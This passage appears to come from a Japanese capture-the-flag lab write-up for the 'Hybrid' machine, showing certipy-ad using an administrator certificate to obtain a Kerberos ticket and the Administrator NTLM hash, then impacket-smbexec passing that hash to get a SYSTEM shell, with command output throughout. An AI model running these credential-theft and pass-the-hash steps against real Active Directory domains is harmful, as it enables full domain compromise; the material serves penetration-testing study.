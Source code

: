 NTLMハッシュを取得する
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/10.10.233.118]
└─$  certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.206.37  
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@hybrid.vl'
[*]     SAN URL SID: 'S-1-5-21-3436099999-75120703-3673112333-500'
[*]     Security Extension SID: 'S-1-5-21-3436099999-75120703-3673112333-500'
[*] Using principal: 'administrator@hybrid.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@hybrid.vl': aad3b435b51404eeaad3b435b51404ee:60701e8543c9f6db1a2af3217386d3dc

```
AdministratorのNTLMハッシュが取得できた！！

### AdministratorのNTLMハッシュ
Administrator : aad3b435b51404eeaad3b435b51404ee:60701e8543c9f6db1a2af3217386d3dc

## シェルを取る
smbexecでシェルを取得して、whoami /allを実行する
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/10.10.233.118]
└─$ impacket-smbexec hybrid.vl/Administrator@10.10.206.37 -hashes aad3b435b51404eeaad3b435b51404ee:60701e8543c9f6db1a2af3217386d3dc
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------
```